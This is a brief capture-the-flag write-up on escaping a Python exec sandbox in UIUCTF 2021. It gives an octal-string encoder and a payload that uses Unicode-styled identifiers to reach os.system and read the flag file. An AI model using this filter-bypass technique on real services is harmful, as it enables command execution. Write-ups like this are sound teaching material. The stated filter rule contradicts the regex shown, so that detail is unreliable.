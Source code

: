 ```yaml
---
layout: post
title:  "Baby python fixed - Sandbox (UIUCTF 2021)"
date:   2021-08-09
categories: writeups
author: Joey Geralnik
tags: python, sandbox
---
```

In this challenge we run python code inside a sandbox and must avoid lowercase letters:

```python
import re
bad = bool(re.search(r'[^a-z\s]', (input := input())))
exec(input) if not bad else print('Input contained bad characters')
exit(bad)
```

We can easily create strings by writing their values is octal, so `'os'` becomes `'\157\163'` and `'cat /flag'` becomes `'\143\141\164\040\057\146\154\141\147'`

A quick script for conversions:

```python
def octalize(s):
    print('\\' + '\\'.join(oct(ord(i))[2:].zfill(3) for i in s))
```

The harder part is doing something interesting with these strings. 
It turns out that python will run unicode italics and bold (WTF?!?!). So we can run:

```python
__𝒾𝓂𝓅𝑜𝓇𝓉__('\157\163').𝙨𝙮𝙨𝙩𝙚𝙢('\143\141\164\040\057\146\154\141\147')
```

to obtain the flag.
